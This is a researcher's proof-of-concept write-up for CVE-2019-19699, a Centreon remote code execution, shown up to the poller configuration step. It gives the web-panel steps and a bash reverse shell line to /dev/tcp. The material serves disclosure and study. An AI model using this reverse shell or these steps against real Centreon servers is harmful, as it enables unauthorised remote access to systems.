 ```yaml
---
layout: single
title: "Centreon ARCE CVE by SpengeSec"
---
```

## CVE-2019-19699
**Centreon =\< 19.10**
**Proof of Concept**
1. Authenticated Remote Code Execution (CVE-2019-19699)
2. Privilege escalation (Walkthrough & Mitigation)

Discovered by:  
_SpengeSec (Guylian Dw)_ &  
_TheCyberGeek (Matthew B)_

Check out SpengeSec's website and github!  
[Website](https://spenge.pw/)  
[Github](https://github.com/sp3nge)

[separator]: <> ()

**Authenticated Remote Code Execution:**

Lets start by logging in as user Admin to the Centreon web panel.

![](/content/spengesec/CVE-2019-19699/images/login.png)

After logging in we navigate to **Configuration > Commands > Miscellaneous**

Proceed by clicking **Add** as shown in the image below.

![](/content/spengesec/CVE-2019-19699/images/add.png)



We now create a **bash reverse shell** as our Miscellaneous command
```
#!/bin/bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

![](/content/spengesec/CVE-2019-19699/images/command.png)
  
And click **Save**

Now we navigate to **Configuration > Pollers** and proceed by clicking on our current _Central_ poller

![](/content/spengesec/CVE-2019-19699/images/poller.png)

This gives u access to the **Modify a poller Configuration** menu

Here we can scroll down, and set a **Post-restart command**

![](/content/spengesec/CVE-2019-19699/images/poller_config.png)
  